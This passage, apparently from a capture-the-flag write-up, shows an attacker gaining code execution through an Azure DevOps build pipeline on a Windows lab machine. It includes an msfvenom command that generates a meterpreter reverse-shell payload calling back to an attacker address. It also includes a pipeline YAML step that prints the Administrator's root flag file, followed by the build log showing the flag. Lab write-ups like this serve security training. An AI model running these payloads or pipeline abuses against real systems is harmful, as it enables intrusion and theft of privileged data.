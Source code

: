 ```
##[section]Finishing: cyfun
```

Seems to be the wrong architecture.

So I created a 32 bits reverse shell instead of a 64 bits one:

```
$ msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows --encoder generic/none LHOST=10.10.14.174 LPORT=9999 -f raw > cyfun.exe
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none succeeded with size 341 (iteration=0)
generic/none chosen with final size 341
Payload size: 341 bytes
```

Same error again, ok let's forget the shell, let's just display the root
flag.

```yaml
trigger:
- master

pool: 'Setup'

steps:
- script: type C:\Users\Administrator\Desktop\root.txt
  displayName: 'cyfun'
```

Here are the logs of our pipeline task build:

```
##[section]Starting: cyfun
==============================================================================
Task         : Command line
Description  : Run a command line script using Bash on Linux and macOS and cmd.exe on Windows
Version      : 2.151.1
Author       : Microsoft Corporation
Help         : https://docs.microsoft.com/azure/devops/pipelines/tasks/utility/command-line
==============================================================================
Generating script.
Script contents:
type C:\Users\Administrator\Desktop\root.txt
========================== Starting Command Output ===========================
##[command]"C:\Windows\system32\cmd.exe" /D /E:ON /V:OFF /S /C "CALL "w:\agents\agent11\_work\_temp\d9359887-a4ac-49ad-9865-3e9b9024f109.cmd""
c8d6aeda24c4e17abcc72f26dedbe919
##[section]Finishing: cyfun
```
